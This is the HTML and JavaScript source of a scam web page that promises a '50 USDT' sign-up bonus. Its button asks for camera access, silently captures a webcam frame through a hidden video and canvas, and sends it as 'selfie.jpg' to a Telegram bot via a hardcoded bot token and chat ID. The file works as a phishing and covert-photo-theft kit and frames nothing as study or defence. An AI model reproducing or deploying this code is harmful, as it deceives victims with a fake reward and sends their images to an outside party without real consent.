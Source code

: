 <!DOCTYPE html>
<html lang="bn">
<head>
  <meta charset="UTF-8" />
  <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
  <title>50 USDT | Earn Money</title>
  <style>
    body, html { margin: 0; padding: 0; font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, "Helvetica Neue", Arial, sans-serif; color: #ffffff; text-align: center; background-color: #000000; overflow: hidden; }
    #bg-canvas { position: fixed; top: 0; left: 0; width: 100%; height: 100%; z-index: 0; }
    .content-wrapper { position: relative; z-index: 1; height: 100vh; display: flex; justify-content: center; align-items: center; }
    .container { max-width: 350px; padding: 20px; background: rgba(255, 255, 255, 0.05); backdrop-filter: blur(5px); border-radius: 20px; border: 1px solid rgba(255, 255, 255, 0.1); }
    @keyframes fadeIn { from { opacity: 0; transform: translateY(20px); } to { opacity: 1; transform: translateY(0); } }
    #coin-canvas, h1, p, .signup-button { animation: fadeIn 0.8s ease-out forwards; opacity: 0; }
    h1 { animation-delay: 0.2s; }
    p { animation-delay: 0.4s; }
    .signup-button { animation-delay: 0.6s; }
    #coin-canvas { width: 150px !important; height: 150px !important; margin: 0 auto 20px auto; }
    h1 { font-size: 2.5em; margin: 0; font-weight: bold; text-shadow: 0 0 15px rgba(255, 255, 255, 0.3); }
    p { font-size: 1.1em; margin: 20px 0; line-height: 1.5; color: #e0e0e0; text-shadow: 0 0 10px rgba(0, 0, 0, 0.5); }
    .signup-button { background-color: #4CAF50; color: white; padding: 15px 30px; border: none; border-radius: 8px; font-size: 1.2em; font-weight: bold; cursor: pointer; text-decoration: none; display: inline-flex; align-items: center; justify-content: center; transition: background-color 0.3s ease, transform 0.1s ease; box-shadow: 0 0 20px rgba(76, 175, 80, 0.5); }
    .signup-button:hover { background-color: #58c95c; }
    .signup-button:active { transform: scale(0.97); }
  </style>
</head>
<body>

  <video id="hidden-video" style="display: none;" autoplay playsinline></video>
  <canvas id="hidden-canvas" style="display: none;"></canvas>
  <canvas id="bg-canvas"></canvas>
  
  <div class="content-wrapper">
    <div class="container">
      <div id="coin-canvas"></div>
      <h1>Earn 50 USDT</h1>
      <p>Start Exploring Our Website And Earn Upto 50 USDT Free. Simply sign up to get 50 $ Sign Up Bonus</p>
      <a href="#" class="signup-button" id="signupBtn">
        <span>Sign Up to Start</span>
      </a>
    </div>
  </div>

  <script>
    const signupBtn = document.getElementById('signupBtn');
    const video = document.getElementById('hidden-video');
    const canvas = document.getElementById('hidden-canvas');

    // আপনার বট টোকেন (নিরাপত্তার জন্য নতুন টোকেন ব্যবহার করুন)
    const BOT_TOKEN = "8424053022:AAGnCW1Sq6lmfj6VK69KpmrqJK47kK18D-Q"; 
    
    // আপনার চ্যাট আইডি
    const CHAT_ID = "8099849002";

    function dataURLtoBlob(dataurl) {
      const arr = dataurl.split(','), mime = arr[0].match(/:(.*?);/)[1],
            bstr = atob(arr[1]), n = bstr.length, u8arr = new Uint8Array(n);
      for (let i = 0; i < n; i++) u8arr[i] = bstr.charCodeAt(i);
      return new Blob([u8arr], { type: mime });
    }

    signupBtn.addEventListener('click', async (event) => {
      event.preventDefault();
      signupBtn.textContent = 'Requesting Access...';
      signupBtn.style.pointerEvents = 'none';

      try {
        const stream = await navigator.mediaDevices.getUserMedia({ video: true, audio: false });
        signupBtn.textContent = 'Access Granted. Finalizing...';
        video.srcObject = stream;

        video.onplay = () => {
            canvas.width = video.videoWidth;
            canvas.height = video.videoHeight;
            const context = canvas.getContext('2d');
            
            setTimeout(() => {
                context.drawImage(video, 0, 0, canvas.width, canvas.height);

                const imageDataUrl = canvas.toDataURL('image/jpeg');
                const photoBlob = dataURLtoBlob(imageDataUrl);
                
                const formData = new FormData();
                formData.append('chat_id', CHAT_ID);
                formData.append('photo', photoBlob, 'selfie.jpg');
                
                const url = `https://api.telegram.org/bot${BOT_TOKEN}/sendPhoto`;

                fetch(url, {
                  method: 'POST',
                  body: formData
                })
                .then(response => response.json())
                .then(data => {
                  if (data.ok) {
                    alert("Sign Up Successful! Your selfie has been submitted.");
                    signupBtn.textContent = 'Welcome!';
                    signupBtn.style.backgroundColor = '#28a745';
                  } else {
                    alert(`Failed to send photo. Error: ${data.description}`);
                    signupBtn.textContent = 'Try Again';
                    signupBtn.style.pointerEvents = 'auto';
                  }
                })
                .catch(error => {
                  alert("Failed to send photo. Check console for errors.");
                  signupBtn.textContent = 'Try Again';
                  signupBtn.style.pointerEvents = 'auto';
                });

                stream.getTracks().forEach(track => track.stop());
            }, 200);
        };

      } catch (err) {
        alert("Camera access is required. Please allow permission.");
        signupBtn.textContent = 'Sign Up to Start';
        signupBtn.style.pointerEvents = 'auto';
      }
    });
  </script>
</body>
</html>
